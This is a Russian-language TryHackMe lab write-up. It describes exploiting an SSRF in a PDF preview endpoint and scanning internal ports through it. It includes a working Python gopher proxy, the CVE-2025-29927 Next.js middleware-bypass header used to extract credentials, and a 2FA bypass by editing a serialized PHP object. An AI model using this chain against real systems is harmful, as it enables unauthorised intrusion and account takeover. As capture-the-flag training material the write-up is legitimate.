










# Extract

> SSRF в PDF-preview использовалась как прокси во внутреннюю сеть; внутренний Next.js-сервис был скомпрометирован через CVE-2025-29927, а затем состояние PHP-аутентификации было изменено для обхода 2FA.

## Общая информация

| Параметр | Значение |
| --- | --- |
| Платформа | TryHackMe |
| ОС | Ubuntu Linux |
| Категория | Web / SSRF / Authentication Bypass |
| Основные техники | SSRF, internal port scanning, gopher proxying, CVE-2025-29927, middleware bypass, serialized PHP state manipulation, 2FA bypass |

## Краткое резюме

Параметр `url` в `/preview.php` заставлял сервер загружать указанный PDF, что подтвердило SSRF. Через этот обработчик был выполнен перебор внутренних портов и обнаружен сервис на `10000/tcp`, реализованный на Next.js. Для удобного взаимодействия был написан локальный прокси, преобразующий входящие HTTP-запросы в запросы через SSRF и `gopher`.

Добавление заголовка `x-middleware-subrequest` позволило обойти middleware-защиту в соответствии с `CVE-2025-29927` и получить из `/customapi` credentials для `/management` вместе с первым флагом. После входа анализ состояния аутентификации выявил сериализованный PHP-объект; изменение соответствующего булевого значения позволило пройти проверку 2FA и получить второй флаг.

## Разведка

### Первичное сканирование портов

Для определения доступных сетевых сервисов было проведено полное сканирование TCP-портов целевой машины с помощью `nmap`:

```bash
nmap -n -A -p- TARGET_IP
```

```text
Nmap scan report for TARGET_IP
Host is up (0.00028s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 a5:e7:b4:75:60:15:06:22:37:b9:21:9b:0c:30:f2:43 (ECDSA)
|_  256 41:64:a1:e5:c6:01:a6:87:cd:b0:fe:4c:ec:d4:5b:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: TryBookMe - Online Library
```

На целевой машине были обнаружены следующие открытые порты:

| PORT   | Service |
| ------ | ------- |
| 22/tcp | SSH     |
| 80/tcp | web app |

### Поиск директорий

Для поиска доступных директорий и файлов использовалась утилита `gobuster`:

```bash
gobuster dir -u http://TARGET_IP:80 -w '/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt' -x php,js,html,py,log,txt,log,bak,old,conf,zip,sql
```

```text
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/index.php            (Status: 200) [Size: 1735]
/pdf                  (Status: 301) [Size: 314]
/management           (Status: 301) [Size: 321]
/javascript           (Status: 301) [Size: 321]
/preview.php          (Status: 200) [Size: 19]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
```

Из обнаруженных ресурсов на данном этапе наибольший интерес представляли `/index.php` и `/preview.php`.

## Анализ веб-приложения

Исследование веб-приложения проводилось с помощью `Burp Suite`, встроенного браузера и доступных инструментов анализа HTTP-трафика.

### Исследование главной страницы

Главная страница `/index.php` представляет собой утилиту для предпросмотра PDF-файлов.



PDF-файлы встраиваются непосредственно в страницу.



В ходе анализа исходного кода страницы был обнаружен скрипт, использующий ресурс `/preview.php` с параметром `url` для получения PDF-файла:




### Подтверждение SSRF

Для проверки возможного наличия SSRF на машине атакующего был запущен HTTP-сервер, раздающий произвольный PDF-файл:

```shell
python3 -m http.server 8000
```

После этого через браузер был выполнен запрос к ресурсу:

`http://TARGET_IP:80/preview.php?url=http://ATTACKER_IP:8000/arbitrary_pdf_file_name.pdf`

Здесь `arbitrary_pdf_file_name.pdf` — имя существующего PDF-файла на машине атакующего.

В результате приложение загрузило и отобразило указанный файл:



Успешное получение PDF-файла с HTTP-сервера атакующего подтвердило наличие SSRF в `/preview.php`.

### Эксплуатация SSRF

После подтверждения SSRF было принято решение использовать уязвимый ресурс `/preview.php` в качестве прокси для обращения к сервисам, недоступным напрямую извне. На данном этапе таким способом удалось получить доступ к ресурсу `/management`.

> При обращении к localhost в качестве адреса сервера необходимо использовать `127.0.0.1` либо `cvssm1`, как это реализовано на `/index.php`. При использовании других вариантов сервер возвращает HTTP 403 либо пользовательское сообщение об ошибке.

На `/management` была обнаружена форма авторизации. Для проверки поля `login` на SQL-инъекцию использовалась тестовая полезная нагрузка `' OR 1=1 - --`. Проверка не выявила возможности эксплуатации SQL-инъекции через данное поле.

### Поиск дополнительных сервисов

Поскольку очевидных точек для дальнейшего продвижения обнаружено не было, следующим этапом стало сканирование сервисов, доступных из внутренней сети целевой машины.

Для перебора портов был создан текстовый файл, содержащий числа от 0 до 65535:

```bash
seq 0 65535 > ports
```

Сканирование проводилось с помощью `ffuf`, при этом уязвимый `/preview.php` использовался для выполнения запросов к внутренним портам:

```bash
ffuf -u 'http://TARGET_IP:80/preview.php?url=http://cvssm1:FUZZ' -w ports -fs 0 -s
```

Результат работы `ffuf`:

```text
80
10000
```

Помимо уже известного сервиса на порту 80, был обнаружен дополнительный сервис, работающий на порту 10000.

### Изучение второго сервиса

При обращении к `http://TARGET_IP:80/preview.php/?url=http://cvssm1:10000` отображались две ссылки: на главную страницу и на API. Попытка прямого перехода к API завершалась ответом HTTP 403.



Анализ исходного кода показал, что данное веб-приложение использует Next.js.

Для Next.js известна уязвимость CVE-2025-29927, позволяющая обходить ограничения middleware с помощью специально сформированного заголовка:

`x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware`

Для упрощения дальнейшей эксплуатации был написан прокси на Python:

```python
import requests, socket, urllib.parse, argparse

parser = argparse.ArgumentParser()

parser.add_argument("-lhost", required=False, default="127.0.0.1", help="Local IP")
parser.add_argument("-lport", required=False, default="8314", help="IP address only")
parser.add_argument("-rhost", required=True, help="Remote Host")
parser.add_argument("-rport", required=False, default="80", help="Remote Port")
parser.add_argument("-rport2", required=True, help="2nd Remote Port")

a = parser.parse_args()

listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
listener.bind(("", int(a.lport)))
listener.listen(1)
print(f"[*] Listening on port {a.lport}")

while True:
    conn, addr = listener.accept()
    print(f"[*] Connection from {addr[0]}:{addr[1]}")

    request = conn.recv(262144).decode(errors="ignore")
    request = request.replace(f"Host: {a.lhost}:{a.lport}", f"Host: 127.0.0.1:{a.rport2}")

    encRequest = urllib.parse.quote(urllib.parse.quote(request))
    gopherURL = (f"http://{a.rhost}:{a.rport}/preview.php?url="
                 f"gopher://127.1:{a.rport2}/_{encRequest}")
    response = requests.get(gopherURL)
    conn.sendall(response.content)
    conn.close()
```

### Эксплуатация уязвимости и получение первого флага

Для обращения к внутреннему сервису через разработанный прокси использовалась следующая команда:

```bash
python3 p.py -rhost TARGET_IP -rport2 10000
```

После этого был выполнен запрос к `/customapi`. Запрос был перехвачен в `Burp Suite`, после чего в него вручную был добавлен заголовок:

`x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware`



В ответе сервера содержались учетные данные для авторизации на `/management`, а также первый флаг.



### Обход 2FA и получение второго флага

Дальнейшая работа выполнялась через разработанный ранее прокси, запущенный с параметром `-rport2 80`.

После ввода полученных учетных данных на `/management` приложение запросило код двухфакторной аутентификации.

Анализ исходного кода и хранилища ресурса показал наличие сериализованного PHP-объекта, содержащего состояние аутентификации:



После изменения значения `b` на `1`, ввода произвольного значения в поле кода и нажатия кнопки `Verify` сервер успешно завершил проверку и вернул второй флаг.



## Итог

В ходе прохождения задания была выстроена последовательная цепочка эксплуатации, начавшаяся с исследования публично доступного веб-приложения и завершившаяся обходом двухфакторной аутентификации.

Ключевой точкой входа стала SSRF-уязвимость в `/preview.php`, позволившая обращаться к ресурсам и сервисам, доступным только из внутренней сети целевой машины. С ее помощью был обнаружен дополнительный сервис на порту 10000. Анализ данного приложения показал использование Next.js и возможность эксплуатации CVE-2025-29927 для обхода middleware-ограничений. Это позволило получить доступ к защищенному API, извлечь учетные данные для `/management` и первый флаг.

На заключительном этапе анализ механизма аутентификации показал, что ее состояние хранится в сериализованном PHP-объекте. Изменение соответствующего значения позволило обойти проверку 2FA и получить второй флаг.

Таким образом, прохождение задания продемонстрировало важность комплексного анализа веб-приложения: одна SSRF-уязвимость стала основой для исследования внутренней инфраструктуры, а последующая комбинация ошибки контроля доступа и небезопасной логики хранения состояния аутентификации привела к полной компрометации предусмотренного сценарием механизма доступа.

## Ключевые выводы

- SSRF может использоваться не только для чтения внутренних ресурсов, но и как транспорт для активного сканирования локальных сервисов.
- Защита внутренних API только middleware-слоем опасна при наличии известного способа его обхода.
- Проксирование произвольных HTTP-запросов через `gopher` расширяет возможности SSRF до взаимодействия с внутренними сервисами на уровне сырых запросов.
- Состояние 2FA нельзя доверять клиентскому сериализованному объекту без целостности и серверной проверки.

## Использованные инструменты

| Инструмент | Использование |
| --- | --- |
| `Nmap` | Полное сканирование внешних TCP-портов |
| `Gobuster` | Перечисление веб-ресурсов |
| `Burp Suite` | Анализ HTTP-трафика и ручная модификация заголовков |
| `Python http.server` | Подтверждение SSRF |
| `ffuf` | Перебор внутренних портов через SSRF |
| `Python requests/socket` | Локальный прокси для доступа к внутреннему сервису |

## Дополнительные материалы

- `CVE-2025-29927` — обход Next.js middleware через заголовок `x-middleware-subrequest`.

## Примечание

> Материал подготовлен в образовательных целях. Все действия выполнялись в контролируемой лабораторной среде TryHackMe.
